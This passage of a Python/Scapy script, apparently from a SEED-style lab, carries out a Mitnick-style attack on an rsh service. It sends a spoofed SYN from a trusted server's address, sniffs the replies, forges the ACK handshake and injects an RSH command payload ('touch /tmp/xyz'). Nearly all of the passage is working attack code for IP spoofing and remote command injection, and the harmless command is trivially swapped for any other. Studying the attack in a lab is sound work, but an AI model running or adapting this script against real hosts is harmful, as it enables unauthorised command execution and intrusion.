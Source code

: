```python
    
    # Determine TCP length
    TCPLen = len(pkt[TCP].payload)

    # Construct payload
    myLoad = '1024\x00seed\x00seed\x00touch /tmp/xyz\x00'
    
    # If it is a SYN+ACK packet, spoof an ACK reply and establish RSH connecction
    if pkt[TCP].flags == 'SA':
        ack_no = pkt[TCP].seq + 1
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='A', seq = seq_num, ack = ack_no), verbose=0)
        print("connection established...")
        
        # Send the RSH payload
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='PA', seq = seq_num, ack = ack_no) / Raw(load = myLoad), verbose=0)
        # update sequence number to next value
        seq_num += len(myLoad)
        print("RSH payload sent...")
        
    # If it is a FIN packet, close the connection
    elif 'F' in pkt[TCP].flags: 
        ack_no = pkt[TCP].seq + 1
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='FA', seq = seq_num, ack = ack_no), verbose=0)    
        # update sequence number to next value        
        seq_num += 1           
        print("connection termination requested...")

    # If it is a PSH/ACK packet, acknowledge receipt of packet and data
    elif 'P' in pkt[TCP].flags:
        ack_no = pkt[TCP].seq + TCPLen
        send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='A', seq = seq_num, ack = ack_no), verbose=0)
        print("data received...")
       
    # If it is an ACK packet, do nothing
    elif pkt[TCP].flags == 'A':
        pass
        
def main():
    global seq_num
    # Spoof a SYN packet
    send(IP(src = srv_ip, dst = x_ip) / TCP(sport = srv_port, dport = x_port, flags='S', seq = seq_num), verbose=0)
    # update sequence number to next value
    seq_num += 1
    print("sent SYN packet")

    # Listen for replies and respond
    sniff(iface = 'br-7ef88ab00fc9', filter = myFilter, prn=spoof_rply)


if __name__ == '__main__':
    main()
```
